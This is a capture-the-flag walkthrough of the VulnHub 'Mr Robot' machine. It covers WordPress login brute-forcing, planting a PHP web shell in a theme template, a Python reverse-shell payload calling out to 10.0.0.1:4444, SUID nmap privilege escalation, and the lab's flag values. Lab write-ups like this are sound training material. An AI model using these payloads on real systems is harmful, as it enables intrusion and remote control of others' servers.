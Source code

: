 ```yaml
---
title: Mr Robot | Vuln Hub
author:
  name: iamiqbal
  link: https://twitter.com/0xiqb4l
date: 2025-08-01 11:00:00
categories: [Vulnhub, Medium]
tags: [Reconnaissance, Wordpress, Privilege escalation, Security]
---
```


Hello Again! I am starting a series of writeups in which I'll cover walkthroughs of VulnHub machines. The difficulties will range from Easy to Hard.

## Task 1: **Intro**

___

> Note: This machine is based on the popular TV show Mr. Robot. It is an easy-medium level boot2root challenge. It has three hidden keys that we need to find. 

## Task 2: **Network and Host Enumeration**
___

The first thing we need to do is to find the ip address assigned to the vulnerable machine. To find that, I'll use **netdiscover**.

```bash
netdiscover -i [interface]
```

Once we get the ip address, we have to enumerate the machine for open ports.
![nmap](/assets/img/vulnhub/mrrobot/1.png)

## Task 3: **Web Enumeration**

From the results of the nmap, we discover that 2 ports are open among 3. We'll see what is running on port 80 by visiting the site. It is running some mr-robot styled shell. We can find the directories and files found on the webserver by using ```gobuster```, ```dirb``` or perhaps ```nikto```. 

![assets](/assets/img/vulnhub/mrrobot/2.png)

It looks like we have found our first key and a .dic file.

#### Flag 1 of 3: 073403c8a58a1f80d943455fb30724b9

Let's find out the contents of the fsocity.dic file.

![fsoc.dic](/assets/img/vulnhub/mrrobot/3.png)

Seems like it contains a wordlist. Upon further investigation we find that it contains duplicate entries so we'll just remove the repetitions and leave the unique entries so it takes less time to bruteforce.

During directory enumeration we found another interesting page on the webserver ```/wp-login.ph```. It indicates that the server is running wordpress. 

![wp-login](/assets/img/vulnhub/mrrobot/4.png)

We neither know the username nor the password but we are given a wordlist, so we use it to bruteforce the ```username``` and ```password``` field.
___

## Task 4: **Web Exploitation**

I used burpsuite's Intruder tab to first to find a valid ```username```. Remember to put $ sign around the ```username``` field so the payload is placed here.

![brute-burp](/assets/img/vulnhub/mrrobot/5.png)

**NOTE:** First check what the login form returns on unsuccessful attempts, so we set that error message inside payload error section, so when the correct username is found we stop the intruder from further attempts.

![username-found](/assets/img/vulnhub/mrrobot/6.png)

Notice the length of the response on correct username (```Elliot```) is noticeably different from the failed attempts. Other than that, sometimes the status code, and error messages also tell us when we hit the correct payload.

Now that we have the username, I'll use hydra to bruteforce the ```password``` field.

![http-post-form](/assets/img/vulnhub/mrrobot/7.png)
![command](/assets/img/vulnhub/mrrobot/8.png)
![password-found](/assets/img/vulnhub/mrrobot/9.png)

Hurrah! we have found the password: ```ER28-0652```

Let's enter the credentials in the login page.

## Task 5: **Template archive.php**

We have to upload a payload to start a reverse shell. Navigate to **Appearance->Editor->archive.php**, and paste the following.

```bash
<?php passthru($_GET["cmd"]); ?>
```

This one-liner command creates a web shell. It gets the command from ```cmd``` parameter from the URL query string and passes it to ```passthru``` which executes system commands.

![command](/assets/img/vulnhub/mrrobot/11.png)

Use netcat to listen on anyport, 4444 in my case.

```bash
nc -lvnp 4444
```

We'll visit the ```http://192.168.43.216/wp-includes/themes/TwentyFifteen/archive.php?cmd=python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket. SOCK_STREAM);s.connect((“10.0.0.1”,4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’``` site in the browser which will spawn an interactive shell (reverse shell).

![rev-shell](/assets/img/vulnhub/mrrobot/12.png)

We are currently logged in as ```daemon```. Do

```bash
ls -la
```

It'll output an ```md5``` hash file and 2nd key. We can not see the 2nd key because only user ```robot``` has the permission to view the file. So we need to escalate privileges. 

The ```md5``` hash contains the password for user ```robot``` so we put that hash into [Crackstation](https://crackstation.net/). The password is

![robot-passwd](/assets/img/vulnhub/mrrobot/13.png)

Login as user ```robot``` and view the 2nd key.

![robot-passwd](/assets/img/vulnhub/mrrobot/14.png)

#### Flag 2 of 3: 822c73956184f694993bede3eb39f959

## Task 6: **Privilege Escalation - Getting root**

The third key resides inside ```/root```, so we need to switch to root. For that we first search for files with ```SUID (Set User ID)``` permissions set. Execute the following command which will do it.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![nmap-suid](/assets/img/vulnhub/mrrobot/15.png)

We need command execution as superuser, so we find nmap interesting here, further we go to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#sudo) to abuse this behaviour.

![robot-passwd](/assets/img/vulnhub/mrrobot/16.png)

Execute the commands one by one and we finally get a shell as root. 

![root](/assets/img/vulnhub/mrrobot/18.png)

Navigate to ```/root/key-3-of-3.txt``` to get the 3rd and final key.

![k3](/assets/img/vulnhub/mrrobot/19.png)

#### Flag 3 of 3: 04787ddef27c3dee1ee161b21670b4e4
